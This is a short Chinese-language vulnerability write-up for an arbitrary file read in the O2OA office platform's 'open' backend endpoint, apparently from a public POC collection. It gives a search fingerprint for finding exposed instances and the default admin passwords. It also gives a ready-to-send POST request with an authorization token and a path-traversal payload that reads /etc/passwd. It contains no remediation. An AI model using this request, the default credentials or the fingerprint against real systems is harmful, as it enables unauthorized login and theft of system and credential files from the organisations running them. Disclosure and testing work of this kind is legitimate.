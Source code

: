 # O2OA open 后台任意文件读取漏洞

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

## 漏洞影响

```
O2OA
```

## 网络测绘

```
title=="O2OA"
```

## 漏洞复现

登录页面

![image-20230314090606993](images/image-20230314090606993.png)

默认密码登录后台 xadmin/o2 (o2oa@2022), 验证POC

```
POST /x_program_center/jaxrs/config/open?v=6.3
Authorization: PfyuxmzgIzq74NYhOcQ5NGbegmqb8H4y50QnO7mEHhA

{"fileName":"../../../etc/passwd"}
```

![image-20230314090619645](images/image-20230314090619645.png)